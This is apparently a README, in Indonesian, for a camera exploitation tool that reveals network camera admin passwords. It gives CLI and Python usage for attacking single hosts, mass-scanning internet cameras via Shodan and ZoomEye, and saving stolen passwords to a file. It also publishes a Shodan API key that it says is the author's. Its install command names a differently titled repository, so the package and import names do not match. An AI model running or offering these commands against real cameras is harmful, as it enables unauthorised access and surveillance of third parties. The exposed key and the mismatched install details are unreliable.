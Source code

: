 ## EksploitKamera

<p align="center">
  <img src="https://github.com/Yoga913/EksploitKamera/blob/main/gambar.jpg" alt="Deskripsi Gambar" width="300">
</p>

EksploitKamera adalah alat eksploitasi kamera yang memungkinkan pengungkapan kata sandi admin kamera jaringan.

## Fitur

* Mengeksploitasi kerentanan pada sebagian besar model kamera populer seperti `CCTV`, `GoAhead`, dan `Netwave`.
* Dioptimalkan untuk mengeksploitasi beberapa kamera sekaligus dari daftar dengan threading diaktifkan.
* Penggunaan CLI dan API yang sederhana.

## Instalasi

```shell
pip3 install git+https://github.com/EntySec/CamOver
```

## Penggunaan dasar

Untuk menggunakan EksploitKamera, ketik saja `eksploitkamera` di terminal Anda.

```
penggunaan: eksploitkamera [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN]

[--zoomeye ZOOMEYE] [-p PAGES]

eksploitkamera adalah alat eksploitasi kamera yang memungkinkan pengungkapan kata sandi admin kamera jaringan.

argumen opsional:
-h, --help tampilkan pesan bantuan ini dan keluar
-t, --threads Gunakan thread untuk pekerjaan tercepat.
-o OUTPUT, --output OUTPUT
Hasil Untuk file.
-i INPUT, --input INPUT
File alamat.
-a ADDRESS, --address ADDRESS
Satu alamat. --shodan SHODAN Kunci API Shodan untuk mengeksploitasi perangkat melalui Internet.
--zoomeye ZOOMEYE Kunci API ZoomEye untuk mengeksploitasi perangkat melalui Internet.
-p PAGES, --pages PAGES
Jumlah halaman yang ingin Anda dapatkan dari ZoomEye.
```

### Contoh 

**Mengeksploitasi satu kamera**

```shell
eksploitkamera -a 192.168.99.100
```

**Mengeksploitasi kamera dari Internet**

Menggunakan mesin pencari Shodan untuk mengeksploitasi kamera melalui Internet, Menggunakannya dengan `-t` untuk eksploitasi cepat.

```shell
eksploitkamera -t --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**CATATAN:** ​​Mengingat kunci API Shodan (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) adalah kunci API PRO saya, Anda dapat menggunakan kunci ini atau kunci Anda sendiri,
bebas menggunakan semua sumber daya kami secara gratis :)

**Mengeksploitasi kamera dari file input**

Menggunakan basis data kamera yang dibuka dengan `-t` untuk eksploitasi cepat.

```shell
eksploitkamera -t -i camera.txt -o passwords.txt
```

**CATATAN:** ​​Ini akan mengeksploitasi semua kamera dalam daftar `cameras.txt` berdasarkan alamatnya dan menyimpan semua kata sandi yang diperoleh
ke `passwords.txt`.

## Penggunaan API

EksploitKamera juga memiliki API Python mereka sendiri yang dapat dipanggil dengan mengimpor EksploitKamera ke kode Anda.

```python
from eksploitkamera import EksploitKamera
```

### Fungsi dasar

Ada semua fungsi dasar EksploitKamera yang dapat digunakan untuk mengeksploitasi kamera tertentu.

* `exploit(address)` - Mengeksploitasi satu kamera dengan alamat yang diberikan.

### Contoh

**Mengeksploitasi satu kamera**

```python
from eksploitkamera import EksploitKamera

eksploitkamera = EksploitKamera()
creds = eksploitkamera.exploit('192.168.99.100')

print(creds)
```

